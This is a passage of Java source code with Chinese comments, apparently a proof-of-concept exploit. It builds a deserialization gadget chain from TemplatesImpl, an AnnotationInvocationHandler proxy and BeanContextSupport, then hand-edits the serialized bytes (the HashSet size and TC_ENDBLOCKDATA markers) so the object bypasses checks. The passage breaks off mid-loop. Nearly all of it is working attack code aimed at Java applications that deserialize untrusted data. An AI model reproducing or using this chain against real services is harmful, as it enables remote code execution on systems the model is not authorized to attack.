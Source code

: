 ```java
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor constructor = clazz.getDeclaredConstructor(Class.class, Map.class);
        constructor.setAccessible(true);
        HashMap Annovar2map = new HashMap();
        Annovar2map.put("f5a5a608",templatesClass);
        InvocationHandler annotationInvocationHandler = (InvocationHandler) constructor.newInstance(Override.class, Annovar2map);
        Field typeField = annotationInvocationHandler.getClass().getDeclaredField("type");
        typeField.setAccessible(true);
        Map annoProxy = (Map) Proxy.newProxyInstance(Map.class.getClassLoader(),new Class[]{Map.class},annotationInvocationHandler);
        LinkedHashSet annoset = new LinkedHashSet();
        typeField.set(annotationInvocationHandler, Templates.class);

        BeanContextSupport bcs = new BeanContextSupport();
        Class cc = Class.forName("java.beans.beancontext.BeanContextSupport");
        Field serializable = cc.getDeclaredField("serializable");
        serializable.setAccessible(true);
        serializable.set(bcs, 0);

        Field beanContextChildPeer = cc.getSuperclass().getDeclaredField("beanContextChildPeer");
        beanContextChildPeer.set(bcs, bcs);

        annoset.add(bcs);

        //序列化
        ByteArrayOutputStream baous = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baous);

        oos.writeObject(annoset);
        oos.writeObject(annotationInvocationHandler);
        oos.writeObject(templatesClass);
        oos.writeObject(annoProxy);
        oos.close();

        byte[] bytes = baous.toByteArray();
        System.out.println("[+] Modify HashSet size from  1 to 3");
        bytes[89] = 3; //修改hashset的长度（元素个数）

        //调整 TC_ENDBLOCKDATA 标记的位置
        //0x73 = 115, 0x78 = 120
        //0x73 for TC_OBJECT, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 0 && bytes[i+1] == 0 && bytes[i+2] == 0 & bytes[i+3] == 0 &&
                    bytes[i+4] == 120 && bytes[i+5] == 120 && bytes[i+6] == 115){
                System.out.println("[+] Delete TC_ENDBLOCKDATA at the end of HashSet");
                bytes = Util.deleteAt(bytes, i + 5);
                break;
            }
        }


        //将 serializable 的值修改为 1
        //0x73 = 115, 0x78 = 120
        //0x73 for TC_OBJECT, 0x78 for TC_ENDBLOCKDATA
        for(int i = 0; i < bytes.length; i++){
            if(bytes[i] == 120 && bytes[i+1] == 0 && bytes[i+2] == 1 && bytes[i+3] == 0 &&
```